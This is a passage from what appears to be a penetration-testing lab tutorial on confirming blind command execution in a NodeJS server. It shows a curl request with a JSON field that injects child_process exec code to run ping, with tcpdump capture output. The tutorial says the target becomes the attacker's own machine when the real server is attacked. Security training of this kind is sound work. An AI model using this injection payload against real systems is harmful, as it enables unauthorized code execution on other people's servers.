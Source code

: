 This is one of the most reliable ways to verify blind command execution, since `ping` is almost always installed on both Linux and Windows servers. Furthermore, firewall rules usually allow ping (i.e. ICMP calls), so it is one of the most reliable ways to verify blind command execution.

This can still fail sometimes, due to very strict firewall rules or some other reasons, `but it is still one of the most reliable methods to attempt first`. So, let's try the `ping` method. Before we send our command, we must have our server listening for pings. We can do that on our Pwnbox with the following command:

```shell
sudo tcpdump -i lo icmp

```

Next, we will inject the following `ping` command:

```shell
ping -c 3 127.0.0.1

```

Note: The argument "-c 3" means that the server will ping us 3 times.

Now, we can send a `ping` command to our server, with:

```shell
curl http://127.0.0.1:21440/admin -X POST -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"ping -c 3 127.0.0.1\"); //"}'

```

Note: In our "tcpdump" command, we used "-i lo" to only listen on our local network. When attacking the real server, we will change this to "-i eth0".

Note: In our injected command, we pinged "127.0.0.1", when attacking the real server, we will change this to our Pwnbox IP.

After we send our command, we check our `tcpdump` window for any hits:

```shell
sudo tcpdump -i lo icmp

tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
xx:xx:xx.xxxxxx IP localhost > localhost: ICMP echo request, id 3268, seq 1, length 64
xx:xx:xx.xxxxxx IP localhost > localhost: ICMP echo reply, id 3268, seq 1, length 64
xx:xx:xx.xxxxxx IP localhost > localhost: ICMP echo request, id 3268, seq 2, length 64
xx:xx:xx.xxxxxx IP localhost > localhost: ICMP echo reply, id 3268, seq 2, length 64
xx:xx:xx.xxxxxx IP localhost > localhost: ICMP echo request, id 3268, seq 3, length 64
xx:xx:xx.xxxxxx IP localhost > localhost: ICMP echo reply, id 3268, seq 3, length 64

```

As we can see, we received exactly 3 pings from our localhost (our local NodeJS server), thus verifying that we do indeed have command execution, without actually getting any output. Now that we can verify that we can execute commands, in the next section, we will try to get a shell on our own server, and then will discover potential ways of getting a shell on the remote server.
